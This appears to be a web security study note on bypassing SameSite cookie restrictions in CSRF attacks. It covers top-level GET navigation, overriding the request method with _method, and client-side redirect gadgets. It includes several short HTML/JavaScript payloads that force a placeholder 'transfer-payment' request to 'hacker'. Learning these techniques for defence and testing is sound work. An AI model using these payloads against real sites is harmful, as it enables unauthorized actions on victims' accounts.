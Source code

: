 ##### Bypassing `Lax` using `GET` requests

Eliciting a `GET` request from the victim browser can create a CSRF attack.
- The request must involve a top-level navigation, like clicking a link.
- Will not work when `iframes` or `img`s send requests.

``` HTML
<script> 
	document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; 
</script>
```

If `GET` requests aren't allowed, override the specified request method type using the parameter `_method` in forms.

```HTMl
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
	<input type="hidden" name="_method" value="GET"> 
	<input type="hidden" name="recipient" value="hacker"> 
	<input type="hidden" name="amount" value="1000000">
</form>
```

> The first payload is a normal URL, this issues a `GET` request with the parameters as query parameters. The second payload is a form that uses the `POST` method, but we override to `GET` and pass the parameters as inputs.

This can also be done in the opposite sense.
- Sending a `GET` request, but setting the `_method` parameter to `POST`.
- This can be done if we want to send a `GET` request, but it must be `POST`.

```HTMl
<script> 
	document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000&_method=POST'; 
</script>
```

##### Bypassing [[SameSite]] using on-site gadgets

For the `SameSite=Strict` cookie, it can be bypassed if a gadget is found that results in secondary requests within the same site.[[SameSite#What is a Site ?]].
- A gadget could be a *client-side* redirect that constructs the redirect target using user input like URL parameters.

> These aren't redirects for the browser, they are seen as normal, same-site requests. Therefore, the cookies will be included for any cross-site request.

Manipulating the gadget to issue this secondary request can enable us to bypass the `Strict` restrictions.
- Server-side requests have the restrictions applied on them, this works for client-side requests.

After finding the gadget and bypassing the restriction, the payload will look something like this.
```HTML
<script> 
	document.location = "URL"
</script>
```
